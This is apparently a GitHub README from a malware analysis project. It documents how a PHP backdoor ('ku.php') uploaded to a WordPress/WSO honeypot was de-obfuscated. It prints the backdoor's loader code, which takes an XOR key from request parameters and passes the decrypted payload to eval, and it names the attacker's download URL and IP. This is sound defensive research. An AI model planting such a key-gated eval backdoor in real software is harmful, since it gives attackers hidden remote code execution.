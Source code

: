 # xor-decoding
## Decoding Exclusive-or encoded malware payloads

During the summoer of 2014, I [wrote and ran](http://stratigery.com/phparasites/)
a honey pot that emulated a poorly maintained WordPress 2.9 installation. I ended up
including a simulated ["WSO" web shell}(https://github.com/bediger4000/malware-phylogeny)
as part of the honey pot, because attackers included WSO web shells in so many of
their fake WordPress plugins. I had a two phase honey pot: first phase simulated
WordPress, the second phase simulated WSO.

Attackers use WSO as a file uploader as much as they use it for anything else. I find
this puzzling, as WSO includes so much more functionality, but I'm not a bottom feeding
WordPress cracker. Attackers uploaded many pieces of malware using the honey pot's
simulated WSO web shell. One of these uploads occurred Wed Aug 28 04:05:52 2013 MDT.
The simulated WSO web shell kept a log of its environment, PHP "superglobal" values,
HTTP cookie values and many other things. The simulated web shell also allows file
uploads by emulating WSO's `uploadFile` command, part of the `FilesMan` "action".

The attacker, from 95.211.231.143 at the time, uploaded a file named "ku.php".

I've included the simulated WSO web shell's logged data as file
[95.211.231.143Uh3LiAoAAAMAAAEbNe0AAAAH.mod_system.scans](https://github.com/bediger4000/xor-decoding/blob/master/95.211.231.143Uh3LiAoAAAMAAAEbNe0AAAAH.mod_system.scans)
in this repo, and the uploaded file as [95.211.231.143Uh3LiAoAAAMAAAEbNe0AAAAHfile](https://github.com/bediger4000/xor-decoding/blob/master/95.211.231.143Uh3LiAoAAAMAAAEbNe0AAAAHfile).

My goal is to document how to de-obfuscate and reverse engineer the "ku.php" file,
which ultimately involved finding XOR-encoding key strings.

## Initial Reading of ku.php

My initial read of `ku.php` showed me that, when executed, it tried to download
the contents of `http://smtp.botabota.biz/ku/ku.txt` to a local file, and return
the URL where someone could access the local file from the Internet. The last line
of `ku.php` didn't fit with the rest of the code. The last line was 12,941 characters
long, and contained some ugly code. After pretty printing, that 12,941 character
line looked like this:

    <?php
    for (
          $o = 0, $e = 'string of random-appearing characters',$d = '';
          @ord($e[$o]);
          $o++)
    ) {
        if ($o < 16) {
            $h[$e[$o]] = $o;
        } else {
            $d .= @chr(($h[$e[$o]] << 4) + $h[$e[++$o]]);
        }
    }
    if (!@isset($_SERVER)) {
        $_COOKIE =& $HTTP_COOKIE_VARS;
        $_POST =& $HTTP_POST_VARS;
        $_GET =& $HTTP_GET_VARS;
    }
    $k = $_COOKIE['key'];
    if (empty($k)) {
        $k = $_POST['key'];
    }
    if (empty($k)) {
        $k = $_GET['key'];
    }
    if (!@function_exists('decrypt')) {
        eval('function decrypt($e,$k){if(!$k){return;}$el=@strlen($e);$kl=@strlen($k);$rl=$el%$kl;$fl=$el-$rl;for($o=0;$o<$fl;$o+=$kl){$p=@substr($e,$o,$kl);$d.="$k"^"$p";}if($rl){$p=@substr($e,$fl,$rl);$k=@substr($k,0,$rl);$d.="$k"^"$p";}return($d);}');
    }
    $d = @decrypt($d, $k);
    eval($d);

`ku.php` seemed to have been backdoored: some oddly encoded bytes get decoded,
then decrypted, and then evaluated. The decryption function was included in `ku.php`, and
the decryption key would arrive as part of the HTTP request for `ku.php`.

Pretty-printing `function decrypt()` from the string in `ku.php` showed me that whatever
code was concealed was actually XOR-encoded. A key in the form of a printable text string
would be bitwise exclusively or-ed with the decoded bytes.

    function decrypt($e, $k)
    {
        if (!$k) {
            return;
        }
        $el = @strlen($e);
        $kl = @strlen($k);
        $rl = $el % $kl;
        $fl = $el - $rl;
        for ($o = 0; $o < $fl; $o += $kl) {
            $p = @substr($e, $o, $kl);
            $d .= "{$k}" ^ "{$p}";
        }
        if ($rl) {
            $p = @substr($e, $fl, $rl);
            $k = @substr($k, 0, $rl);
            $d .= "{$k}" ^ "{$p}";
        }
        return $d;
    }

## Getting the xor-encoded payload

## Finding key size

[Hamming Distance](https://en.wikipedia.org/wiki/Hamming_distance)

    $ make keysize
    $ ./keysize ciphertextfilename > dat
